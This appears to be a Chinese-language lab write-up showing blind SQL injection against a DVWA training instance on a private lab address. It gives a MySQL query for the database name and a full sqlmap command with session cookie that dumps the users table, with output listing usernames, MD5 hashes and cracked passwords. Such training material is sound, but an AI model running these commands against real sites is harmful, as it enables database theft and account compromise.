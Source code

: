从左边起，查询当前数据库的前6个字符

```
mysql> SELECT left(database(),6);
+--------------------+
| left(database(),6) |
+--------------------+
| dvwacn             |
+--------------------+
1 row in set (0.00 sec)

mysql>
```

## sqlmap获取dvwacn.users表内容

运行命令

```
sqlmap -u "http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1&Submit=%C8%B7%B6%A8#" --cookie="security=low; PHPSESSID=5538rj2euqbbdrsfsh3lrtnlg2" --dbms=mysql -D dvwacn -T user -C --dump
```

获取到的用户名和密码

```
Database: dvwacn
Table: users
[5 entries]
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| admin   | 7fef6171469e80d32c0559f88b377245 (admin888) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
```